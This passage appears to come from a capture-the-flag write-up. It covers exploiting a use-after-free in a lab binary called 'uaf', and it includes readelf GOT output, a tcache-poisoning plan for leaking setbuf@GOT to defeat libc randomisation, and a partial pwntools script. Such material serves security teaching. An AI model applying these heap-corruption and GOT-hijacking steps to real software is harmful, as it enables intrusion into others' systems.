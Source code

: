 This means that the GOT (which contains function pointers to libc) is writeable!

We can both leak these pointers and overwrite them if we want. 

So the exploit strategy is: 

1. create a `fake chunk` that points to an address in `GOT` and use this to leak a function address.
2. create a `fake chunk` that points to an address in `GOT` so we can overwrite it to hijack control flow.

Let's look at which functions we have available in the GOT: 

```
$ readelf --relocs ./uaf
[...]
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
000000404018  000100000007 R_X86_64_JUMP_SLO 0000000000000000 free@GLIBC_2.2.5 + 0
000000404020  000200000007 R_X86_64_JUMP_SLO 0000000000000000 puts@GLIBC_2.2.5 + 0
000000404028  000300000007 R_X86_64_JUMP_SLO 0000000000000000 __stack_chk_fail@GLIBC_2.4 + 0
000000404030  000400000007 R_X86_64_JUMP_SLO 0000000000000000 setbuf@GLIBC_2.2.5 + 0
000000404038  000500000007 R_X86_64_JUMP_SLO 0000000000000000 printf@GLIBC_2.2.5 + 0
000000404040  000600000007 R_X86_64_JUMP_SLO 0000000000000000 alarm@GLIBC_2.2.5 + 0
000000404048  000700000007 R_X86_64_JUMP_SLO 0000000000000000 read@GLIBC_2.2.5 + 0
000000404050  000900000007 R_X86_64_JUMP_SLO 0000000000000000 fgets@GLIBC_2.2.5 + 0
000000404058  000a00000007 R_X86_64_JUMP_SLO 0000000000000000 signal@GLIBC_2.2.5 + 0
000000404060  000c00000007 R_X86_64_JUMP_SLO 0000000000000000 malloc@GLIBC_2.2.5 + 0
000000404068  000d00000007 R_X86_64_JUMP_SLO 0000000000000000 atoi@GLIBC_2.2.5 + 0
000000404070  000e00000007 R_X86_64_JUMP_SLO 0000000000000000 exit@GLIBC_2.2.5 + 0
```

Remember that when we perform the leak, we are also overwriting at least 1 byte so we are corrupting the function address. This is important because the program will crash if we choose a function that is still used after we performed our arbitrary read. Luckily, we have the function `setbuf()` in the GOT, which is only called at the start of `main()` and then never again.

### Leaking LIBC ###

To leak `setbuf@GOT` we need to create a `fake chunk` that points to it.
Our `arbitrary read` primitive would look something like the following: 

1. create rule 0
2. create rule 1
3. delete rule 1
4. delete rule 0

5. rule 0 now contains a `next` pointer so we edit rule 0 and write the address of `setbuf@GOT` 
 
6. create rule 0  -- this will set top_chunk to the value of `next` pointer 
7. create rule 1  -- libc now uses our corrupted top_chunk to allocate a `fake chunk` at address `setbuf@GOT` 
8. view rule 1 -- this will print out the contents of `setbuf@GOT` 

In code, this would look something like the following: 

```python
[...]
r = process(["./ld-2.27.so", "./uaf"], env={"LD_PRELOAD":"./libc.so.6"})

e = ELF("./uaf")

create(r, b"AAAAAAAA")
create(r, b"BBBBBBBB")
delete(r, 1)
delete(r, 0)
edit(r, 0, p64(e.got['setbuf'])) # this will corrupt the next pointer

create(r, b"A") # create rule 0
create(r, b"B") # create rule 1
```